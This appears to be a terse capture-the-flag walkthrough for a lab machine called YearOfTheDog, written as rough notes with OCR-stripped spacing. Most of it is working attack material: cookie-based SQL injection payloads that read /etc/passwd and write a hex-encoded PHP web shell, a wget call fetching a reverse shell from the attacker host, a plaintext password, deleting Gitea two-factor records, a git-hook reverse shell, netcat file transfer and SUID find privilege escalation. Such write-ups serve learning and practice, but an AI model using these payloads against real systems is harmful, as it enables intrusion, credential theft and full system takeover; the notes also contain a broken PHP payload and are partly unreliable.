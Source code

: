 # YearOfTheDog

```
Ports:
22
80
```

Nothing interesting found searching directoris, higest ports.
try use sqlmap 

: sqlmap -u http://10.10.11.217/ --dump-all --level 5 --risk 3 --batch
	[02:59:05] [INFO] testing connection to the target URL
	you have not declared cookie(s), while server wants to set it sown('id=5f9d79710af...8d71d695f5').

edit cookie id='
	#response

	HTTP/1.1200OK
	Date:Fri,09Dec202208:00:20GMT
	Server:Apache/2.4.29(Ubuntu)
	Vary:Accept-Encoding
	Content-Length:156
	Connection:close
	Content-Type:text/html;charset=UTF-8

	Error:YouhaveanerrorinyourSQLsyntax;checkthemanualthatcorrespondstoyourMySQLserverversionfortherightsyntaxtousenear'''''atline1

### Payloads

Cookie:id='unionselect1,database()---

Cookie:id='UNIONSELECT1,group_concat(table_name)FROMinformation_schema.tablesWHEREtable_schema=database()---
	Youarenumberqueueinthequeue

Cookie:id='unionselect1,group_concat(column_name)frominformation_schema.columnswheretable_schema=database()---
Cookie:id='unionselect1,group_concat(userID)fromqueue---

nothing really interesting

Try sqlinjection read files

Cookie:id='unionselect1,LOAD_FILE("/var/log/apache2/access.log")---

Cookie:id='unionselect1,LOAD_FILE("/etc/passwd")---
```
SUCESS

dylan:x:1000:1000:dylan,,,:/home/dylan:/bin/bash
```

LOAD index.php

	require_once"config.php";

	if(!isset($_COOKIE["id"])){
	$cookie=bin2hex(random_bytes(16));
	$queueNum=rand(1,100);
	setcookie("id",$cookie,NULL,"/");

	$sql="INSERTINTOqueueVALUES('".$cookie."',".

UPLOAD FILES in HEX
Cookie:id='unionselect1,0x48656c6c6f20776f726c640a INTO OUTFILE '/var/www/html/test.php' -- -
	'HelloWorld'

after try convert "php-reverse-shell" in hexa received exceeds server limit
try upload RCE


```
 echo '<?PHP system($_GET["c"];?>' | xxd
 echo '0x3C3F5048502073797374656D28245F4745545B2263225D3B3F3E0A' | xxd -r -p
	<?PHP system($_GET["c"];?>


 echo '0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A' | xxd -r -p
 	<?PHP system($_REQUEST["c"];?>

```
Cookie: id='UNION SELECT 1,0x3C3F5048502073797374656D28245F524551554553545B2263225D3B3F3E0A INTO OUTFILE '/var/www/html/funrce.php'-- -


# First Access

http://{ip}/funrce.php?c=wget http://{ip}/reverse.php
http://{ip}/reverse.php


in /home/dylan/ found file with log {work_analysis}
read log found credentials

dylan:Labr4d0rs4L1f3

: ss -ltp
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:44269         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 [::]:http               [::]:*                  LISTEN      -                   
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN      -

tunneling: 
: ssh -L 3000:127.0.0.1:3000 dylan@{ip}

login page with 2FA

dylan@year-of-the-dog:/gitea/gitea$ sqlite3 gitea.db 
	Command 'sqlite3' not found

sqlite3 not instaled, for login and delete "two factor auth" we can use python connect
```
 import sqlite3
 s=sqlite3.connect("gitea.db")
 s.execute("delete from two_factor")
 s.commit()
 s.close()
 exit()
```

we can connect now

find git-hooks and add command line in pre-receive and update with reverse shell

edit README.md and commit changes to gain shell

# in container

: sudo -l

(ALL) NOPASSWORD: ALL

: sudo su root

access /data this directory exist in main system

use netcat to transfer /usr/bin/find to kali machine from dylan machine

nc {ip} 4444 > find

nc {kali@mchine} 4444 < /usr/bin/find 

start python server

in container ##

wget http://{kali}/find
chmod 4755 find  		## suid permission

dylan@machine: ./find . -exec /bin/sh -p\; -quit

root#>
